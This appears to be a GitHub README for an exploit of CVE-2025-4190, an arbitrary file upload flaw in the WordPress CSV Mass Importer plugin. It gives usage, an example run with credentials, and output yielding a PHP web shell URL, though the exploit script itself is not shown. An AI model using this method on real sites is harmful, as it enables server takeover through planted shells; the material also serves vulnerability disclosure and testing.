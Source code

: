 
# CVE-2025-4190 — WordPress CSV Mass Importer ≤ 1.2 Arbitrary File Upload

![WordPress Plugin](https://img.shields.io/badge/WordPress-Plugin-blue)  
![CVE](https://img.shields.io/badge/CVE-2025--4190-red)  
![Status](https://img.shields.io/badge/Status-Verified-brightgreen)  
![Author](https://img.shields.io/badge/Author-Khaled_Alenazi_(Nxploited)-purple)

---

## 📌 Description

The **CSV Mass Importer** plugin (≤ 1.2) for WordPress contains an **Admin+ Arbitrary File Upload** vulnerability.  
Due to improper validation of uploaded files, high-privilege users (such as admin) can upload **arbitrary files** on the server, even when this should be restricted — for example in multisite setups.

This vulnerability allows an attacker to upload PHP shells or malicious files, leading to **remote code execution (RCE)** on the server.

_Discovered by **Nxploited (Khaled Alenazi)**._

---

## 🔥 Details

- **Plugin Name:** CSV Mass Importer  
- **Affected Version:** ≤ 1.2  
- **Vulnerability Type:** Admin+ Arbitrary File Upload  
- **CVE:** [CVE-2025-4190](https://wpscan.com/vulnerability/e525ece5-6e03-4aee-bf5b-6ae0b961f027/)  
- **WPVDB ID:** e525ece5-6e03-4aee-bf5b-6ae0b961f027  
- **Original Researcher:** Khaled Alenazi (Nxploited)  
- **Submitter Website:** [https://github.com/Nxploited](https://github.com/Nxploited)  
- **Verified:** ✅  

---

## 💻 Proof of Concept (PoC)

The plugin fails to properly check uploaded files when using the CSV import feature.  
A crafted ZIP file containing a PHP shell can be uploaded and extracted to a publicly accessible directory.

**Shell Path Example:**  
```
<target-url>/wp-content/uploads/cmi-data/nxploited.php
```

---

## 🚀 Usage

### Script

This repository contains a ready Python exploit script: `4190.py`

### Help Menu

```bash
python CVE-2025-4190.py --help
usage: 4190.py [-h] --url URL --username USERNAME --password PASSWORD

WordPress CSV Mass Importer <= 1.2 - Admin+ Arbitrary File Upload # By Nxploited (Khaled Alenazi)

options:
  -h, --help            show this help message and exit
  --url, -u URL         Target WordPress site URL
  --username, -un USERNAME
                        WordPress admin username
  --password, -p PASSWORD
                        WordPress admin password
```

### Example Run

```bash
python CVE-2025-4190.py -u http://192.168.100.74:888/wordpress -un admin -p admin
```

### Expected Output

```
[+] Logged in successfully.
[+] Payload 'nxploited.zip' created successfully.
[+] Payload uploaded successfully.
[+] Shell URL: http://192.168.100.74:888/wordpress/wp-content/uploads/cmi-data/nxploited.php
Exploited By Nxploited (Khaled_alenazi)
```

---

## 🕰 Timeline

- **Publicly Published:** 2025-04-26 (about 11 days ago)  
- **Added to Database:** 2025-05-07 (about 1 hour ago)  
- **Last Updated:** 2025-05-07 (about 1 hour ago)  

---

## 🛡 References

- [CVE-2025-4190 on WPScan](https://wpscan.com/vulnerability/e525ece5-6e03-4aee-bf5b-6ae0b961f027/)

---

## ⚠ Disclaimer

This code is provided for **educational purposes** only.  
The author is not responsible for any misuse or damage caused by this script.  
**Use responsibly and only on systems you are authorized to test.**

---

_Discovered and developed by Khaled Alenazi (Nxploited)_ 🌟

